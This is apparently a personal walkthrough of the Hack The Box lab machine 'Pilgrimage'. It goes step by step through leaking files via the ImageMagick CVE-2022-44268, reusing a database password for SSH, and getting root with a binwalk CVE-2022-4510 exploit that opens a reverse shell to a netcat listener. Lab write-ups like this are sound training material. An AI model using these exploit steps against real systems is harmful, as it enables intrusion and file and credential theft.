

---
tags:
  - CVE-2022-44268
  - CVE-2022-4510
  - binwalk
  - imagemagick
group: Linux
---


- Machine : https://app.hackthebox.com/machines/Pilgrimage
- Reference :https://0xdf.gitlab.io/2023/11/25/htb-pilgrimage.html
- Solved : 2025.4.6. (Sun) (Takes 3days)

## Summary
---

1. **Initial Enumeration**
    - **Open Ports**: 22 (SSH), 80 (HTTP)
    - **HTTP Service**:
        - `nginx 1.18.0` hosting a web app at `pilgrimage.htb`
        - `.git` directory exposed — dumped source code using `git-dumper`
            
2. **Web Exploitation**
    - **Source Code Review**:
        - Discovered custom `magick` binary using ImageMagick `7.1.0-49`
    - **CVE-2022-44268 (ImageMagick Arbitrary File Read)**:
        - Crafted malicious PNG with embedded file (`/etc/hosts`, `/etc/passwd`, `/var/db/pilgrimage`)
        - Extracted SQLite DB file from image metadata
            
3. **Shell as `emily`**
    - **Credentials Leak**:
        - From dumped SQLite DB: Username `emily`, Password `abigchonkyboi123`
    - **SSH Access**: Logged in as `emily` via SSH
        
4. **Shell as `root`**
    - **Enumeration**:
        - No useful `sudo` or `SUID` binaries
        - Found `malwarescan.sh` script running as **root**
        - Script watches `/shrunk/` directory and runs `binwalk -e` on new files
    - **CVE-2022-4510 (Binwalk RCE)**:
        - Binwalk v2.3.2 vulnerable to code execution when parsing crafted PNG
        - Uploaded exploit PNG to `/var/www/pilgrimage.htb/shrunk/`
        - Reverse shell triggered when `binwalk` executed the file as root

### Key Techniques:

- **Git Source Code Extraction**: Dumped `.git` folder to obtain web app internals
- **CVE-2022-44268**: Used to exfiltrate arbitrary files via image metadata
- **CVE-2022-4510**: Leveraged vulnerable `binwalk` to execute code as root
- **Live File Monitoring Exploit**: Abused `inotifywait`-triggered malware scanner running with elevated privileges

---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~]
└─$ /opt/custom-scripts/port-scan.sh 10.10.11.219
Performing quick port scan on 10.10.11.219...
Found open ports: 22,80
Performing detailed scan on 10.10.11.219...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-04 07:43 MDT
Nmap scan report for 10.10.11.219
Host is up (0.32s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 20:be:60:d2:95:f6:28:c1:b7:e9:e8:17:06:f1:68:f3 (RSA)
|   256 0e:b6:a6:a8:c9:9b:41:73:74:6e:70:18:0d:5f:e0:af (ECDSA)
|_  256 d1:4e:29:3c:70:86:69:b4:d7:2c:c8:0b:48:6e:98:04 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://pilgrimage.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.91 seconds
```

Domain name is `pilgrimage.htb` and nginx version is 1.18.0.
Let's add the domain on `/etc/hosts`.

0xdf recommends to re-scan with the obtained domain name.
Let's try again.

```yaml
┌──(kali㉿kali)-[~]
└─$ nmap -sCV -p 22,80 pilgrimage.htb        
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-04 08:24 MDT
Nmap scan report for pilgrimage.htb (10.10.11.219)
Host is up (0.28s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 20:be:60:d2:95:f6:28:c1:b7:e9:e8:17:06:f1:68:f3 (RSA)
|   256 0e:b6:a6:a8:c9:9b:41:73:74:6e:70:18:0d:5f:e0:af (ECDSA)
|_  256 d1:4e:29:3c:70:86:69:b4:d7:2c:c8:0b:48:6e:98:04 (ED25519)
80/tcp open  http    nginx 1.18.0
| http-git: 
|   10.10.11.219:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: Pilgrimage image shrinking service initial commit. # Please ...
|_http-title: Pilgrimage - Shrink Your Images
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.16 seconds
```

It additionally finds that there's a git repository found.
On port 80 web service, `/.git` directory exists.

### http(80)


It looks like an image editing website shrinking image size.
I uploaded test image file, and it seems that processed file is saved in a folder.


It's listed on the dashboard.


```bash
┌──(kali㉿kali)-[~/htb/pilgrimage]
└─$ feroxbuster -u http://pilgrimage.htb -x php

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://pilgrimage.htb
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        7l       11w      153c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        7l        9w      153c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        7l       11w      169c http://pilgrimage.htb/tmp => http://pilgrimage.htb/tmp/
200      GET       94l      234w     3576c http://pilgrimage.htb/assets/css/custom.css
200      GET      178l      395w     5292c http://pilgrimage.htb/assets/js/custom.js
200      GET      171l      403w     6173c http://pilgrimage.htb/register.php
200      GET        5l       27w     1031c http://pilgrimage.htb/assets/js/popup.js
302      GET        0l        0w        0c http://pilgrimage.htb/logout.php => http://pilgrimage.htb/
200      GET      186l      505w     4928c http://pilgrimage.htb/assets/css/owl.css
200      GET      171l      403w     6166c http://pilgrimage.htb/login.php
302      GET        0l        0w        0c http://pilgrimage.htb/dashboard.php => http://pilgrimage.htb/login.php
200      GET     2349l     5229w    50334c http://pilgrimage.htb/assets/css/templatemo-woox-travel.css
301      GET        7l       11w      169c http://pilgrimage.htb/assets => http://pilgrimage.htb/assets/
200      GET        7l      942w    60110c http://pilgrimage.htb/vendor/bootstrap/js/bootstrap.min.js
200      GET       11l      552w    57997c http://pilgrimage.htb/assets/css/animate.css
200      GET        2l     1283w    86927c http://pilgrimage.htb/vendor/jquery/jquery.min.js
200      GET     6805l    11709w   123176c http://pilgrimage.htb/assets/css/fontawesome.css
200      GET       15l     1928w   119998c http://pilgrimage.htb/assets/js/isotope.min.js
301      GET        7l       11w      169c http://pilgrimage.htb/assets/images => http://pilgrimage.htb/assets/images/
301      GET        7l       11w      169c http://pilgrimage.htb/assets/css => http://pilgrimage.htb/assets/css/
301      GET        7l       11w      169c http://pilgrimage.htb/assets/js => http://pilgrimage.htb/assets/js/
200      GET        7l     2223w   194705c http://pilgrimage.htb/vendor/bootstrap/css/bootstrap.min.css
200      GET      198l      494w     7621c http://pilgrimage.htb/index.php
200      GET    16582l    60225w   485937c http://pilgrimage.htb/assets/js/tabs.js
200      GET      198l      494w     7621c http://pilgrimage.htb/
301      GET        7l       11w      169c http://pilgrimage.htb/vendor => http://pilgrimage.htb/vendor/
301      GET        7l       11w      169c http://pilgrimage.htb/vendor/jquery => http://pilgrimage.htb/vendor/jquery/
```

I found some sub pages and directories, but most of them returned 403 forbidden.

##### git-dumper

Using `git-dumper` tool, I can dump git repository from website.

Let's install it first.

```bash
┌──(kali㉿kali)-[~/htb/pilgrimage]
└─$ pipx install git-dumper
  installed package git-dumper 1.0.8, installed using Python 3.12.7
  These apps are now globally available
    - git-dumper
done! ✨ 🌟 ✨
```

Then, let's dump the website.

```bash
┌──(kali㉿kali)-[~/htb/pilgrimage]
└─$ git-dumper http://pilgrimage.htb/.git ./git
[-] Testing http://pilgrimage.htb/.git/HEAD [200]
[-] Testing http://pilgrimage.htb/.git/ [403]
[-] Fetching common files
[-] Fetching http://pilgrimage.htb/.gitignore [404]
[-] http://pilgrimage.htb/.gitignore responded with status code 404
[-] Fetching http://pilgrimage.htb/.git/hooks/post-commit.sample [404]
[-] http://pilgrimage.htb/.git/hooks/post-commit.sample responded with status code 404
[-] Fetching http://pilgrimage.htb/.git/description [200]
[-] Fetching http://pilgrimage.htb/.git/hooks/pre-applypatch.sample [200]
[-] Fetching http://pilgrimage.htb/.git/hooks/post-receive.sample [404]
[-] http://pilgrimage.htb/.git/hooks/post-receive.sample responded with status code 404

...SNIP...

[-] Fetching http://pilgrimage.htb/.git/objects/ca/d9dfca08306027b234ddc2166c838de9301487 [200] [-] Fetching http://pilgrimage.htb/.git/objects/f1/8fa9173e9f7c1b2f30f3d20c4a303e18d88548 [200] [-] Running git checkout .
```

The last command `git checkout .` retrieves files from the repository.

```bash
┌──(kali㉿kali)-[~/htb/pilgrimage/pilgrimage-repo]
└─$ ls
assets         index.php  logout.php  register.php
dashboard.php  login.php  magick      vendor
```

Apart from `php` files, there's an interesting file `magick`.
It seems that it's an executable file.

```bash
┌──(kali㉿kali)-[~/htb/pilgrimage/pilgrimage-repo]
└─$ file magick                                
magick: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=9fdbc145689e0fb79cb7291203431012ae8e1911, stripped
```

Since I cannot run 64-bit executable, I brought the output from 0xdf's blog.

```bash
oxdf@hacky$ ./magick --version
Version: ImageMagick 7.1.0-49 beta Q16-HDRI x86_64 c243c9281:20220911 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): bzlib djvu fontconfig freetype jbig jng jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (7.5)
```

It seems that the ImageMagick's version is 7.1.0-49.


# Shell as `emily`

### CVE-2022-44268

I was able to find existing [PoC fro CVE-2022-44268](https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC).

```bash
┌──(kali㉿kali)-[~/htb/pilgrimage]
└─$ pngcrush -text a "profile" "/etc/hosts" vjp.png 
  Recompressing IDAT chunks in vjp.png to pngout.png
   Total length of data found in critical chunks            =     48746
   Best pngcrush method        =  10 (ws 15 fm 6 zl 9 zs 1) =     51649
CPU time decode 0.009591, encode 0.061980, other 0.001186, total 0.074123 sec


┌──(kali㉿kali)-[~/htb/pilgrimage]
└─$ ls
CVE-2022-44268   pngout.png  test_output.jpeg
pilgrimage-repo  test.jpg    vjp.png


┌──(kali㉿kali)-[~/htb/pilgrimage]
└─$ exiv2 -pS pngout.png


STRUCTURE OF PNG FILE: pngout.png
 address | chunk |  length | data                           | checksum
       8 | IHDR  |      13 | ............                   | 0x918adfea
      33 | gAMA  |       4 | ....                           | 0x0bfc6105
      49 | cHRM  |      32 | ..z&..............u0...`..:..  | 0x9cba513c
      93 | bKGD  |       6 | .....                          | 0xf943bb7f
     111 | tIME  |       7 | ......%                        | 0x1675b087
     130 | IDAT  |   51592 | x...i.eiz.........GF...U..tWu. | 0x77411e81
   51734 | tEXt  |      37 | date:create.2024-07-08T16:00:3 | 0x1fd2e630
   51783 | tEXt  |      37 | date:modify.2024-07-08T16:00:3 | 0x6e8f5e8c
   51832 | tEXt  |      18 | profile./etc/hosts             | 0xc560a843
   51862 | IEND  |       0 |                                | 0xae426082
```

Then, I uploaded the `pngout.png` and downloaded processed output file.

```bash
┌──(kali㉿kali)-[~/htb/pilgrimage]
└─$ identify -verbose 67f0747ec7b6b.png    
Image:
  Filename: 67f0747ec7b6b.png
  Permissions: rw-rw-r--
  Format: PNG (Portable Network Graphics)
  Mime type: image/png
  Class: DirectClass
  Geometry: 140x105+0+0
  Units: Undefined
  Colorspace: sRGB

...SNIP...

  Properties:
    date:create: 2025-04-05T00:07:30+00:00
    date:modify: 2025-04-05T00:08:31+00:00
    date:timestamp: 2025-04-05T00:07:47+00:00
    png:bKGD: chunk was found (see Background color, above)
    png:cHRM: chunk was found (see Chromaticity, above)
    png:gAMA: gamma=0.45455 (See Gamma, above)
    png:IHDR.bit-depth-orig: 8
    png:IHDR.bit_depth: 8
    png:IHDR.color-type-orig: 6
    png:IHDR.color_type: 6 (RGBA)
    png:IHDR.interlace_method: 0 (Not interlaced)
    png:IHDR.width,height: 140, 105
    png:text: 4 tEXt/zTXt/iTXt chunks were found
    png:tIME: 2025-04-05T00:08:30Z
    Raw profile type: 

     205
3132372e302e302e31096c6f63616c686f73740a3132372e302e312e310970696c677269
6d6167652070696c6772696d6167652e6874620a0a232054686520666f6c6c6f77696e67
206c696e65732061726520646573697261626c6520666f7220495076362063617061626c
6520686f7374730a3a3a3120202020206c6f63616c686f7374206970362d6c6f63616c68
6f7374206970362d6c6f6f706261636b0a666630323a3a31206970362d616c6c6e6f6465
730a666630323a3a32206970362d616c6c726f75746572730a

    signature: 3ca30ddbfa6d314e1be7606bf3cca50feb8121f6705e971a0d13a04b0119e92a
  Artifacts:
    filename: 67f0747ec7b6b.png
    verbose: true
  Tainted: False
  Filesize: 18633B
  Number pixels: 14700
  Pixels per second: 13.1348MB
  User time: 0.000u
  Elapsed time: 0:01.001
  Version: ImageMagick 6.9.13-12 Q16 aarch64 18420 https://legacy.imagemagick.org
                                                                           
┌──(kali㉿kali)-[~/htb/pilgrimage]
└─$ python -c 'print(bytes.fromhex("3132372e302e302e31096c6f63616c686f73740a3132372e302e312e310970696c6772696d6167652070696c6772696d6167652e6874620a0a232054686520666f6c6c6f77696e67206c696e65732061726520646573697261626c6520666f7220495076362063617061626c6520686f7374730a3a3a3120202020206c6f63616c686f7374206970362d6c6f63616c686f7374206970362d6c6f6f706261636b0a666630323a3a31206970362d616c6c6e6f6465730a666630323a3a32206970362d616c6c726f75746572730a").decode("utf-8"))'                                                   
127.0.0.1       localhost
127.0.1.1       pilgrimage pilgrimage.htb

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

Let's read `/etc/passwd`.

```ruby
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
emily:x:1000:1000:emily,,,:/home/emily:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```

`emily` is expected to be a next user.

I tried to fetch `/home/emily/.ssh/id_rsa` but failed. Probably not exists.
Instead, I found `sqlite` file hint from `login.php` on the previously extracted repository.

```bash
┌──(kali㉿kali)-[~/htb/pilgrimage/pilgrimage-repo]
└─$ cat login.php    

...SNIP...
  $db = new PDO('sqlite:/var/db/pilgrimage');
  $stmt = $db->prepare("SELECT * FROM users WHERE username = ? and password = ?");
  $stmt->execute(array($username,$password));
...SNIP...
```

Let's read `/var/db/pilgrimage` file.

```bash
┌──(kali㉿kali)-[~/htb/pilgrimage]
└─$ pngcrush -text a "profile" "/var/db/pilgrimage" vjp.png
  Recompressing IDAT chunks in vjp.png to pngout.png
   Total length of data found in critical chunks            =     48746
   Best pngcrush method        =  10 (ws 15 fm 6 zl 9 zs 1) =     51649
CPU time decode 0.008320, encode 0.057263, other 0.001205, total 0.067979 sec


┌──(kali㉿kali)-[~/htb/pilgrimage]
└─$ wget http://pilgrimage.htb/shrunk/67f079f07c63f.png
--2025-04-04 18:30:44--  http://pilgrimage.htb/shrunk/67f079f07c63f.png
Resolving pilgrimage.htb (pilgrimage.htb)... 10.10.11.219
Connecting to pilgrimage.htb (pilgrimage.htb)|10.10.11.219|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 19044 (19K) [image/png]
Saving to: ‘67f079f07c63f.png’

67f079f07c63f.png  100%[===============>]  18.60K  62.1KB/s    in 0.3s    

2025-04-04 18:30:45 (62.1 KB/s) - ‘67f079f07c63f.png’ saved [19044/19044]
```

It doesn't seem that I can naively process the extracted output.
Instead, I can use `grep -Pv "^(|Image)` to extract the part, and process only plain hex with `xxd -r -p` command.

```bash
┌──(kali㉿kali)-[~/htb/pilgrimage]
└─$ python read.py                                         
Traceback (most recent call last):
  File "/home/kali/htb/pilgrimage/read.py", line 575, in <module>
    print(bytes.fromhex(oneline_profile).decode("utf-8"))
          ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
UnicodeDecodeError: 'utf-8' codec can't decode byte 0x91 in position 99: invalid start byte


┌──(kali㉿kali)-[~/htb/pilgrimage]
└─$ identify -verbose 67f079f07c63f.png | grep -Pv "^( |Image)" | xxd -r -p> pilgrimage.sqlite


┌──(kali㉿kali)-[~/htb/pilgrimage]
└─$ file pilgrimage.sqlite 
pilgrimage.sqlite: SQLite 3.x database, last written using SQLite version 3034001, file counter 95, database pages 5, cookie 0x4, schema 4, UTF-8, version-valid-for 95
```

Using `sqlitebrowser`, I can easily extract `emily`'s password : `abigchonkyboi123`



Let's open a ssh shell with the obtained credential.

```bash
┌──(kali㉿kali)-[~/htb/pilgrimage]
└─$ ssh emily@10.10.11.219
emily@10.10.11.219's password: 
Linux pilgrimage 5.10.0-23-amd64 #1 SMP Debian 5.10.179-1 (2023-05-12) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Apr  5 15:57:53 2025 from 10.10.14.17
emily@pilgrimage:~$ id
uid=1000(emily) gid=1000(emily) groups=1000(emily)
```

I got `emily`'s shell!


# Shell as `root`

### Enumeration

```bash
emily@pilgrimage:~$ sudo -l
[sudo] password for emily: 
Sorry, user emily may not run sudo on pilgrimage.


emily@pilgrimage:~$ find / -perm -4000 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/su
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/fusermount
/usr/bin/mount
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/umount
```

I couldn't find anything useful on `sudo`, `SUID`.

Instead, I found one unusual script using `ps auxww` command : `malwarescan.sh`

```bash
emily@pilgrimage:/tmp$ ps auxww
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND

...SNIP...

root         745  0.0  0.0   6744  2872 ?        Ss   00:41   0:00 /usr/sbin/cron -f
message+     746  0.0  0.1   8260  4100 ?        Ss   00:41   0:01 /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation --syslog-only
root         748  0.0  0.0   6816  3012 ?        Ss   00:41   0:00 /bin/bash /usr/sbin/malwarescan.sh
root         750  0.0  0.6 209752 27072 ?        Ss   00:41   0:03 php-fpm: master process (/etc/php/7.4/fpm/php-fpm.conf)
root         751  0.0  0.1 220796  5988 ?        Ssl  00:41   0:00 /usr/sbin/rsyslogd -n -iNONE
root         753  0.0  0.1  13856  7108 ?        Ss   00:41   0:00 /lib/systemd/systemd-logind
root         760  0.0  0.0   5844  1664 tty1     Ss+  00:41   0:00 /sbin/agetty -o -p -- \u --noclear tty1 linux
root         763  0.0  0.0   2516   784 ?        S    00:41   0:00 /usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/
root         764  0.0  0.0   6816  2368 ?        S    00:41   0:00 /bin/bash /usr/sbin/malwarescan.sh
...SNIP...
```

It seems that it's checking uploaded files from website and check if the uploaded file is executable.

```bash
emily@pilgrimage:/tmp$ cat /usr/sbin/malwarescan.sh
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
        filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
        binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
                if [[ "$binout" == *"$banned"* ]]; then
                        /usr/bin/rm "$filename"
                        break
                fi
        done
done
```

It’s watching for file creations in the `shrunk` directory, and using `binwalk` to look for any executables in the files.

##### inotifywait

`inotifywait` is a Linux utility used to monitor filesystem events such as file creation, modification, deletion, and more.

It's checking if any file has been created on `/var/www/pilgrimage.htb/shrunk/` directory.

##### binwalk

Next is `binwalk` binary. It's typically used for firmware analysis.
It shows different output according to filetypes.

```bash
┌──(kali㉿kali)-[~/htb/pilgrimage]
└─$ binwalk -e lego.png 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 183 x 122, 8-bit/color RGB, non-interlaced
138           0x8A            Zlib compressed data, best compression


┌──(kali㉿kali)-[~/htb/pilgrimage]
└─$ binwalk -e /opt/nc.exe/nc64.exe

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             Microsoft executable, portable (PE)
35573         0x8AF5          mcrypt 2.5 encrypted data, algorithm: "lsGetValue", keysize: 886 bytes, mode: "U",
38408         0x9608          Object signature in DER format (PKCS header length: 4, sequence length: 6856
38557         0x969D          Certificate in DER format (x509 v3), header length: 4, sequence length: 1037
39598         0x9AAE          Certificate in DER format (x509 v3), header length: 4, sequence length: 1050
40652         0x9ECC          Certificate in DER format (x509 v3), header length: 4, sequence length: 1070
41726         0xA2FE          Certificate in DER format (x509 v3), header length: 4, sequence length: 1105
42835         0xA753          Certificate in DER format (x509 v3), header length: 4, sequence length: 1235
```

It seems that Windows executable's output contains "Microsoft executable".

##### Command Injection (failed)

My initial thought was exploiting command injection vulnerability on `$filename` variable.

I tried to include `; {further command}` after the real filename, but it turned out that `bash` is resilient on naive command injection attacks.

##### Exploiting binwalk

I focused on the point that the `binwalk`'s version on the target is `v2.3.2`.

```bash
emily@pilgrimage:/tmp$ binwalk -h

Binwalk v2.3.2
Craig Heffner, ReFirmLabs
https://github.com/ReFirmLabs/binwalk
```

The [exploit-db PoC](https://www.exploit-db.com/exploits/51249) seems to make a `binwalk_exploit.png` file which opens a reverse shell when it's run by `binwalk`.

First, I check `/var/www/pilgrimage.htb/shrunk` directory's permission.

```bash
emily@pilgrimage:/tmp$ ls -al /var/www/pilgrimage.htb/shrunk
total 8
drwxrwxrwx 2 root root 4096 Apr  5 12:00 .
drwxr-xr-x 7 root root 4096 Jun  8  2023 ..
```

It's globally writable, so I can just naively upload a file as `emily` using `scp`.
I tried it, but it didn't work well.
Even though I uploaded the png file on the intended path, listener never responded.

```bash
┌──(kali㉿kali)-[~/htb/pilgrimage]
└─$ touch empty.png


┌──(kali㉿kali)-[~/htb/pilgrimage]
└─$ python 51249.py empty.png 10.10.14.17 9001

################################################
------------------CVE-2022-4510----------------
################################################
--------Binwalk Remote Command Execution--------
------Binwalk 2.1.2b through 2.3.2 included-----
------------------------------------------------
################################################
----------Exploit by: Etienne Lacoche-----------
---------Contact Twitter: @electr0sm0g----------
------------------Discovered by:----------------
---------Q. Kaiser, ONEKEY Research Lab---------
---------Exploit tested on debian 11------------
################################################

You can now rename and share binwalk_exploit and start your local netcat listener.


┌──(kali㉿kali)-[~/htb/pilgrimage]
└─$ python -m http.server          
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.219 - - [05/Apr/2025 16:25:10] "GET /test.png HTTP/1.1" 200 -
```

```bash
emily@pilgrimage:/var/www/pilgrimage.htb/shrunk$ wget http://10.10.14.17:8000/test.png
--2025-04-06 08:26:23--  http://10.10.14.17:8000/test.png
Connecting to 10.10.14.17:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 681 [image/png]
Saving to: ‘test.png’

test.png           100%[================>]     681  --.-KB/s    in 0s      

2025-04-06 08:26:24 (2.09 MB/s) - ‘test.png’ saved [681/681]


emily@pilgrimage:/var/www/pilgrimage.htb/shrunk$ ls -al
total 12
drwxrwxrwx 2 root  root  4096 Apr  6 08:26 .
drwxr-xr-x 7 root  root  4096 Jun  8  2023 ..
-rw-r--r-- 1 emily emily  681 Apr  6 08:24 test.png
```

Then, I can see that listener captures a shell.

```bash
┌──(kali㉿kali)-[~/htb/pilgrimage]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.219] 43602
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
```

I got a root shell!